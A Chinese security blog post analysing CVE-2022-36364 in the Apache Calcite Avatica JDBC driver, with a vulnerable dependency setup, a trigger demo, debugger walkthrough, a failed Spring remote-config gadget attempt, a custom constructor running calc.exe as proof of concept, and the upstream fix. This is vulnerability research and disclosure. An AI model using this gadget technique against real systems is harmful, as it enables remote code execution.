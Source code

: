 #  Apache Calcite Avatica 远程代码执行   
 蚁景网安   2025-05-13 08:31  
  
前段时间看到Apache Calcite Avatica远程代码执行漏洞 CVE-2022-36364 在网上搜索也没有找到相关的分析和复现文章，于是想着自己研究一下，看能不能发现可以利用的方法。  
  
首先利用一下最近比较热门的 Deepseek ，询问他是否清楚漏洞相关的信息。  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXibhGE28QZtStibViaQcy8XE4rCiawI9Liac7vgNoCibREU9XjaS2pJnM5lSw/640?wx_fmt=other&from=appmsg "")  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXjN3ic80suPGz4kqmWEKnKe05zWvYUSFe0O3uXkx9eWs0jNh2FnYJ5QA/640?wx_fmt=other&from=appmsg "")  
  
通过回答我们可以了解到这个漏洞的概况，具体漏洞的版本，以及漏洞产生的原因。  
## 漏洞简介  
  
Apache Calcite Avatica JDBC 驱动程序根据通过 httpclient_impl  
 连接属性提供的类名来创建 HTTP 客户端实例；但是在驱动程序实例化之前不会验证该类是否实现了预期的接口，这样一来就会导致可以通过调用任意类来执行代码。  
  
执行这个漏洞并造成一定的危害性，还需要两个先决条件：  
- 必须拥有控制 JDBC 连接参数的权限  
  
- 类路径中有一个具有 URL 参数和执行代码能力的函数（目前需要自己构造）  
  
## 漏洞复现&分析  
  
简单点，通过 maven 来创建漏洞环境  
```
<!-- https://mvnrepository.com/artifact/org.apache.calcite.avatica/avatica -->
<dependency>
    <groupId>org.apache.calcite.avatica</groupId>
    <artifactId>avatica</artifactId>
    <version>1.21.0</version>
</dependency>
```  
  
创建完成漏洞环境后，我们就需要来编写一段代码想办法触发这个漏洞，我个人的建议是通过对比代码补丁，一般来说修复完成代码后，总会写一个测试类来进行测试  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXibAJCK7wOoNFJw5QFbrcucMxp4uPXVficqWaKadp1jQlZhk9ncpOzcQw/640?wx_fmt=other&from=appmsg "")  
```
import org.apache.calcite.avatica.BuiltInConnectionProperty;
import org.apache.calcite.avatica.ConnectionConfig;
import org.apache.calcite.avatica.ConnectionConfigImpl;
import org.apache.calcite.avatica.remote.AvaticaHttpClient;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactory;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl;
import java.net.URL;
import java.util.Properties;

public class test {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        props.setProperty(BuiltInConnectionProperty.HTTP_CLIENT_IMPL.name(),"className");
        URL url = new URL("url");
        ConnectionConfig config = new ConnectionConfigImpl(props);
        AvaticaHttpClientFactory httpClientFactory = new AvaticaHttpClientFactoryImpl();
        AvaticaHttpClient client = httpClientFactory.getClient(url, config, null);
    }
}
```  
  
这样一来我们就编写了一个漏洞 Demo  calssName  
 和 url  
 的值是我们可以操作控制的，我们进行调试分析一下  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX5KQ5g2zvWQRa4JYnFgxviaM31T8RFufj7a1tic9mia5sj8DCP2gonKGxA/640?wx_fmt=other&from=appmsg "")  
  
org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#getClient  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXn7q3YoQ7q04wMicw2ScxgGkk9yzmfFaKyRvsQP7zGJ6yQV03ibxf6EAQ/640?wx_fmt=other&from=appmsg "")  
  
这个地方我们就注意到了最后调用 instantiateClient  
 来处理的两个参数 className 和 url 一个来自于直接传参，另一个来自于 config.httpClientClass()  
 会从 config 对象中获取 HTTP 客户端的实现类名称，并将其作为一个 String  
 返回  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX41t6dEKPYltH9G6GyrOZb5021nsvbicq8OJax8BRTQwntr4slQ99FUw/640?wx_fmt=other&from=appmsg "")  
  
‍  
  
所以当参数传入到 org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#instantiateClient  
 其中的两个参数 className  
 和 url  
 都是我们可以控制的  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXpmFLW1L15MLMdrQzk4ZUDd2J6xUGQ7TGFyzHbpMkjSPeUomvxnJtJA/640?wx_fmt=other&from=appmsg "")  
  
不需要向下继续调试，我们就看到了关键代码 constructor.newInstance(Objects.requireNonNull(url));  
  
这样一来我们就可以通过控制 className  
 和 url  
 来实现调用任意类，但是这个类的必须有 URL 参数的处理  
  
刚开始想到的方法是  
  
利用 spring 中的类构造函数加载远程配置实现 RCE  
- org.springframework.context.support.ClassPathXmlApplicationContext  
  
```
import org.springframework.context.support.ClassPathXmlApplicationContext;
public class JXpathDemo {
    public static void main(String[] args) {
        String s = "http://127.0.0.1:8080/bean.xml";
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext(s);
    }
}
```  
  
似乎如此一来就满足了条件，我们先试试  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXVpUoiab27wK5ZdXiblp1P8Wo7EqJZtF4WQTx2HcGvkL71EkNxzZIRg9Q/640?wx_fmt=other&from=appmsg "")  
  
爆出了一个错误，我们注意到 lassPathXmlApplicationContext  
 类没有接收 java.net.URL  
 参数的构造方法。ClassPathXmlApplicationContext  
 类的构造方法接收的是 String  
 类型的路径，通常是用于加载 Spring 配置文件的路径。  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX455WfGNva0xEg2l9yjwf0eCVp1KLJJG1YianGqICZiaxPTuqDrppJ1VQ/640?wx_fmt=other&from=appmsg "")  
  
所以这种利用方式适用于很多种情况 Apache Commons JXPath 远程代码执行、PostgresQL JDBC Driver 任意代码执行 等，但是并不适配当前的环境。(目前还没有找到合适的类来触发利用这种漏洞)  
  
为了进一步体现危害性，我自己创建一个类来体现  
```
import java.net.URL;

public class CustomHttpClient {
    private URL url;

    // 构造函数，接受一个 URL 类型的参数
    public CustomHttpClient(URL url) throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```  
  
![7](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXqNBJcPnMW5152p7ic6hz3gbImic28LQ8Q0DF8IaHiaUX0LRheyy3LbF3g/640?wx_fmt=other&from=appmsg "")  
## 漏洞修复  
  
通过对比我们发现对传入的类进行了控制，限定必须属于AvaticaHttpClient  
 的子类  
  
https://github.com/apache/calcite-avatica/commit/0c097b6a685fc1f97f151505a219976f15ed0c4c?diff=split&w=0  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXcjkmK3RuMOSU4CQWNjySXZ3iatQfgNI5mhZyANHA2srbUt92EJtgWaA/640?wx_fmt=other&from=appmsg "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6iavic0tIJIoZCwKvUYnFFiaibgSm6mrFp1ZjAg4ITRicicuLN88YodIuqtF4DcUs9sruBa0bFLtX59lQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
学习  
网安实战技能课程  
，戳  
“阅读原文”  
  
